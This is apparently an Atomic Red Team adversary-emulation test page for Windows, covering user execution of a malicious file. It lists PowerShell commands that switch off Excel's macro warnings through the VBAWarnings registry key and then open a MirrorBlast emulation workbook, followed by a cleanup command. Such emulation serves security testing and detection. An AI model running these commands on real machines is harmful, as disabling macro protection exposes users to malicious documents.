 **Supported Platforms:** Windows


**auto_generated_guid:** 24fd9719-7419-42dd-bce6-ab3463110b3c






#### Attack Commands: Run with `powershell`! 


```powershell
Cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs"
New-ItemProperty -Path Registry::HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\16.0\Excel\Security -Name "VBAWarnings" -Value "1" -PropertyType DWORD -Force | Out-Null
& '.\Excel 2016.lnk' "PathToAtomicsFolder\T1204.002\bin\mirrorblast_emulation.xlsm"
```

#### Cleanup Commands:
```powershell
reg delete "HKCU\SOFTWARE\Microsoft\Office\16.0\Excel\Security" /v "VBAWarnings" /f
```





<br/>
